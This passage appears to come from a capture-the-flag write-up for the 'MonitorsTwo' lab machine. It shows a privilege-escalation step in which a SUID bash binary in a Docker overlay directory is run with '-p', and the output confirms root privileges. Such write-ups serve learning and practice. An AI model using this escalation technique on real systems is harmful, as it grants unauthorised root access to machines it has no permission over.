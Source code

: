 From there, getting root is a command away:

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff/bin$ ./bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) egid=0(root) groups=0(root),1000(marcus)
```
